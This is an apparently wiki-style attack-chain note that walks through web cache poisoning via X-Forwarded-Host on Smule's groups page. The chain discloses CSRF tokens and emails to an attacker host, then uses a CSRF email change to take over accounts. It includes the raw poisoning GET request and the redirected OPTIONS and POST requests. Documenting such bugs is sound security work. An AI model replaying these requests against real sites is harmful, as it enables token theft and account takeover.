

---
tags:
  - web-cache-poisoning
  - csrf
  - account-takeover
  - x-forwarded-host
type: attack_chain
tools:
  - '[[tools/Burp-Suite]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/get-with-x-forwarded-host]]'
  - '[[commands/options-check-email]]'
  - '[[commands/post-check-email]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Inject-X-Forwarded-Host-to-Poison-Web-Cache]]'
  - '[[procedures/Trigger-Login-on-Poisoned-Page-to-Disclose-CSRF-Token]]'
  - '[[procedures/Setup-PHP-Server-to-Capture-Disclosed-Data]]'
  - '[[procedures/Execute-CSRF-Attack-to-Change-Victim-Email]]'
step_count: 4
techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Adversary-in-the-Middle]]'
description: >-
  Multi-stage attack exploiting web cache poisoning to disclose sensitive
  information and enable CSRF for account takeover
skill_level: intermediate
impact_level: high
id: b4a4b92d-7c9e-46c5-8100-73668f51f4a8
created_at: '2025-12-13T09:00:34.304Z'
updated_at: '2025-12-13T09:00:34.304Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
  - '[[Adversary-in-the-Middle]]'
---
# Web Cache Poisoning via X-Forwarded-Host Leading to CSRF Account Takeover on Smule

Multi-stage attack chain demonstrating web cache poisoning on Smule's user groups page by injecting X-Forwarded-Host, leading to redirection of login requests to a malicious server, disclosure of CSRF tokens and emails, and ultimately CSRF-based account takeover via email change.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~15 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform (Smule website)
- PHP-based tech stack
- Access to the vulnerable page: https://www.smule.com/s/smule_groups/user_groups/user_name

### Initial Access Requirements

- Ability to send HTTP requests to the target
- Control over a malicious host (e.g., localhost or attacker server)
- No prior credentials needed, but a browser for testing poisoned responses

## Detailed Attack Procedures

### Step 1: Poison the Web Cache
procedure: [[procedures/Inject-X-Forwarded-Host-to-Poison-Web-Cache]]

**Objective**: Manipulate the cache by injecting X-Forwarded-Host to redirect links in the response to an attacker-controlled host.

**Instructions**: Use [[tools/Burp-Suite]] to intercept the GET request to the vulnerable page and add the X-Forwarded-Host header. Execute [[commands/get-with-x-forwarded-host]]:

```bash
GET /s/smule_groups/user_groups/fossnow27 HTTP/1.1
Host: www.smule.com
X-Forwarded-Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: [redacted]
Connection: close
Upgrade-Insecure-Requests: 1
If-None-Match: W/"74107fb6dcc410390f339e5ddabc3022"
Cache-Control: max-age=0
```

**Expected Output**: Cached response with links and footer altered to point to localhost.

**Success Indicators**:
- Cache is poisoned
- Subsequent requests serve modified content

### Step 2: Trigger Disclosure via Login Attempt
procedure: [[procedures/Trigger-Login-on-Poisoned-Page-to-Disclose-CSRF-Token]]

**Objective**: Load the poisoned page in a browser and attempt login to send requests to the malicious host, disclosing CSRF token and email.

**Instructions**: Open the poisoned response in a browser and enter an email in the login form. This triggers [[commands/options-check-email]] followed by [[commands/post-check-email]]:

First, the OPTIONS request:

```bash
OPTIONS /user/check_email HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Access-Control-Request-Method: POST
Access-Control-Request-Headers: x-csrf-token,x-smulen
Origin: https://www.smule.com
Connection: close
```

Then the POST request:

```bash
POST /user/check_email HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:61.0) Gecko/20100101 Firefox/61.0
Accept: application/json, text/plain, */*
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.smule.com/s/smule_groups/user_groups/fossnow27
X-CSRF-Token: [redacted]
Content-Type: application/x-www-form-urlencoded
X-Smulen: daf446d26def7faeef4f6527d7f20fae
Content-Length: 31
Origin: https://www.smule.com
Connection: close

email=foo%40bar.com
```

**Expected Output**: Requests sent to attacker host with CSRF token and email in payload.

**Success Indicators**:
- OPTIONS and POST requests captured
- Sensitive data disclosed

### Step 3: Capture Data with Mimic Server
procedure: [[procedures/Setup-PHP-Server-to-Capture-Disclosed-Data]]

**Objective**: Set up a PHP script on the malicious host to handle and capture the incoming requests, extracting CSRF token and email.

**Instructions**: Create a PHP script to respond to OPTIONS and POST requests at /user/check_email, capturing the data and returning a JSON response with the token and email.

**Expected Output**: JSON output containing captured CSRF token and user email.

**Success Indicators**:
- Data successfully captured and logged
- Valid JSON response sent back

### Step 4: Perform CSRF Account Takeover
procedure: [[procedures/Execute-CSRF-Attack-to-Change-Victim-Email]]

**Objective**: Use the captured CSRF token to craft and submit a form that changes the victim's email address, achieving account takeover.

**Instructions**: Craft an auto-submitting HTML form using the captured token to POST to /user/update/email on the target, changing the email to an attacker-controlled one.

**Expected Output**: Victim's email updated, allowing password reset and takeover.

**Success Indicators**:
- Email change confirmed
- Account access gained

## Attack Chain Summary

### Key Achievements

1. Successful cache poisoning and link redirection
2. Disclosure of sensitive CSRF tokens and emails
3. Complete account takeover via CSRF

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]
- [[Adversary-in-the-Middle]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]
- [[Collection]]

*Last updated: 2023-10-01*
